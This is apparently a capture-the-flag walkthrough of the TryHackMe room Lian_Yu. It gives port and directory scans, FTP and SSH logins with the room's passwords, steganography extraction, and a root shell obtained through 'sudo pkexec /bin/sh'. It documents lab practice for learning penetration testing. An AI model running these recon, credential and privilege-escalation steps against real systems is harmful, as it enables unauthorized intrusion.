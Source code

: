 # Lian\_Yu

**Room Link:** [https://tryhackme.com/room/lianyu](https://tryhackme.com/room/lianyu)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (129) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster dir -u http://$VICTIM/island/2100 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x ticket
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>



**Link:** [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (12) (5).png" alt=""><figcaption></figcaption></figure>



## FTP

```
ftp $VICTIM
Username: vigilante
Password: !#th3h00d
mget *
```



**Kali**

```
exiftool Leave_me_alone.png 
sudo apt install ncurses-hexedit
```

<figure><img src="../../.gitbook/assets/image (9) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

Change the first hex values to **89 50 4E 47 0D 0A** to make it .PNG then save the file

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
exiftool Leave_me_alone.png
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide info aa.jpg
Password: password
```

<figure><img src="../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf aa.jpg
Password: password
unzip ss.zip 
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh slade@$VICTIM
Password: M3tahuman
```



## Privilege Escalation

**Victim**

```
sudo -l
```



<figure><img src="../../.gitbook/assets/image (19) (6) (3).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
sudo pkexec /bin/sh
```

<figure><img src="../../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>























